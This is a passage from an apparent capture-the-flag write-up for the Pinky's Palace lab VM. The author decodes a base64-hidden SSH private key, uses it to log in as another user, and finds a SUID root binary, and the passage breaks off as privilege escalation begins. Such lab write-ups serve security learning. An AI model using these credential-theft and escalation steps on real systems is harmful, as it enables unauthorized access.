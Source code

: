 ```bash
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```

I decoded it, and granted write privileges to the owner of the file.

```bash
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat .ultrasecret | base64 -d > /dev/shm/id_rsa
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ chmod 400 /dev/shm/id_rsa 
```

Then, I logged in as pinky via SSH.
 
```bash
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ ssh pinky@127.0.0.1 -p 64666 -i /dev/shm/id_rsa 
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb  2 05:54:01 2018 from 172.19.19.2
pinky@pinkys-palace:~$ id
uid=1000(pinky) gid=1000(pinky) groups=1000(pinky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

In the pinky's home directory I found a note and a binary file with SUID permissions.

```bash
pinky@pinkys-palace:~$ ls
adminhelper  note.txt
pinky@pinkys-palace:~$ ls -la adminhelper 
-rwsr-xr-x 1 root root 8880 Feb  2  2018 adminhelper
pinky@pinkys-palace:~$ cat note.txt 
Been working on this program to help me when I need to do administrator tasks sudo is just too hard to configure and I can never remember my root password! Sadly I'm fairly new to C so I was working on my printing skills because Im not sure how to implement shell spawning yet :(
pinky@pinkys-palace:~$ file adminhelper 
adminhelper: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3f035a0120e92e5c0e569dc8f3f4e813ef41409b, not stripped
```

## Privilege Escalation
### SUID Binary

I check if gdb exists to debug the binary, luckily it is installed on the system and start listing the existing functions.
